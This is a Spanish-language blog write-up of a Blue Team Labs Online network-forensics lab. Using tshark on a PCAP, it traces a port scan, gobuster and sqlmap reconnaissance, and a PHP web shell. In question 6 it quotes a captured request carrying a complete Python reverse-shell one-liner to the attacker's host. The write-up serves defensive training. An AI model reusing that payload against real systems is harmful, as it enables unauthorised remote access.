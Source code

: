 ```yaml
---
layout: single
title: BTLO Investigation - WebShell
excerpt: Investigación sencilla sobre una shell reversa. 
date: 2025-07-25
classes: wide
header:
  teaser: ../gits/sec/blog/assets/imag
  teaser_home_page: true
  icon: ../assets/images/btlo.png
categories:
   - Blue Team Labs Online
   - investigation
   - php
tags:
   - wireshark
   - tshark
   - reverse shell
   - network forensics
---
```


Scenario

The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

1. What is the IP responsible for conducting the port scan activity?

Para esto podemos aplicar el siguiente filtro con tshark: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack == 0" -T fields -e ip.src | sort | uniq -c
      3
   1237 10.251.96.4
      4 10.251.96.5
      3 172.20.10.2
     37 172.20.10.5
```

También podemos determinar esta ip `10.251.96.4` en la parte de `statistics>conversations`. 

2. What is the port range scanned by the suspicious host?

Esto podemos hacerlo facilmente con thsark: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack == 0 && ip.src==10.251.96.4" -T fields -e tcp.dstport | sort -n | tail -n 1
1024

┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack == 0 && ip.src==10.251.96.4" -T fields -e tcp.dstport | sort -n > porst.txt

┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ head -n 1 porst.txt
1

┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tail -n 1 porst.txt                                                                                                  1024
```

3. What is the type of port scan conducted?

Ya vimos que se realiza un escaneo `TCP SYN`, en el que se envía únicamente un paquete SYN y, para no completar el handshake TCP, no envía el ACK final, esto genera menos tráfico y deja menos rastros en los registros del sistema remoto.

4. Two more tools were used to perform reconnaissance against open ports, what were they?

Para esto podemos filtrar por el user-agent. 

```bash 
┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "http" -T fields -e http.user_agent | sort | uniq

Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)
```

5. What is the name of the php file through which the attacker uploaded a web shell?

Revisando las peticiones post, podemos ver que una hace referencia a un fichero php: 

![](../assets/images/btlo-webshell/1.png) 

6. What is the name of the web shell that the attacker uploaded?

Filtrando por peticiones http con el siguiente comando podemos encontrar un fragmento interesante: 

```bash 
tshark -r BTLOPortScan.pcap -Y "http && http.request.method == GET " | grep -i "\.php"
<SNIP>
16121 562.475632157  10.251.96.4 49934 10.251.96.5  80 HTTP 486 GET /uploads/dbfunctions.php HTTP/1.1
16134 568.433006846  10.251.96.4 49938 10.251.96.5  80 HTTP 455 GET /uploads/dbfunctions.php?cmd=id HTTP/1.1
16144 573.571056929  10.251.96.4 49940 10.251.96.5  80 HTTP 459 GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1
16201 672.982972093  10.251.96.4 49942 10.251.96.5  80 HTTP 706 GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
<SNIP>
```

claramente está usando `dbfunctions.php`

7.  What is the parameter used in the web shell for executing commands?

vemos que el valor de `cmd` es el comando a ejecutar. 

8. What is the first command executed by the attacker?

El primero es `id`, comando usando comunmente por los atacantes para reconocer el sistema accedido. 

9. What is the type of shell connection the attacker obtains through command execution?

Porel último comando ejecutado, vemos un patrón común para conexiones reversar. 

10. What is the port he uses for the shell connection?

4422
